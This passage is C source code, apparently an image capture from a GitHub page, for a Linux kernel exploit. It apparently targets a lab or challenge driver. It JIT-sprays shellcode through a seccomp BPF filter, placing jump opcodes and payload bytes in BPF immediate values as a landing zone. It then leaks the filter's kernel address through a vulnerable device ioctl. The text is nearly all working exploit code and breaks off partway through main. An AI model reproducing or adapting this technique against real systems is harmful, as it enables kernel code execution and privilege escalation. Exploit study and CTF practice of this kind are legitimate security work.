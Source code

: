 ```c
    struct sock_filter long_rel_jmp = BPF_STMT(BPF_LD | BPF_IMM, 0x909008eb);
    struct sock_filter short_rel_jmp = BPF_STMT(BPF_LD | BPF_IMM, 0x909003eb);
    struct sock_filter ret = BPF_STMT(BPF_RET | BPF_K, SECCOMP_RET_ALLOW);
    

    for(idx = 0; idx < LANDING_ZONE_SIZE-1; idx += 2){ // landing zone
        memcpy(&filter[idx], &mov_hash, sizeof(struct sock_filter));
        memcpy(&filter[idx+1], &long_rel_jmp, sizeof(struct sock_filter));
    }

    // last jump has to be shorter (if not we would skip some shellcode)
    memcpy(&filter[LANDING_ZONE_SIZE-1], &short_rel_jmp, sizeof(struct sock_filter));
    
    
    for(idx = 0; idx < sizeof(shellcode); ++idx){
        struct sock_filter tmp = BPF_STMT(BPF_LD | BPF_IMM, *(unsigned int *)shellcode[idx]);
        memcpy(&filter[idx + LANDING_ZONE_SIZE], &tmp, sizeof(struct sock_filter));
    }

    memcpy(&filter[999], &ret, sizeof(struct sock_filter));

    struct sock_fprog prog = {
        .len = (unsigned short)(sizeof(filter) / sizeof(filter[0])),
        .filter = filter,
    };

    // Apply the seccomp filter
    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) != 0) {
        perror("prctl(PR_SET_NO_NEW_PRIVS) failed");
        exit(EXIT_FAILURE);
    }

    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog) != 0) {
        perror("prctl(PR_SET_SECCOMP) failed");
        exit(EXIT_FAILURE);
    }
}

int main(int argc, char **argv){
    int dev, r, pid;
    void (* function)(void);
    void *bpf_addr, *code, *code_base;


    dev = open(DEV, O_RDWR | O_NONBLOCK);
    if(dev < 0)
        err(1, "could not open device");

    //
    // exploit goes here
    //    

    // allocate first stage shellcode (jitted)
    install_seccomp_filter(VOID_STATIC_HASH);

    // module & seccomp filter area leak
    r = ioctl(dev, CMD_PWN_READ, &function);
    if(r != 0) 
        err(1, "ioctl read failed");
    
    bpf_addr = (void *)function - BPF_OFFSET;
    function = bpf_addr;

```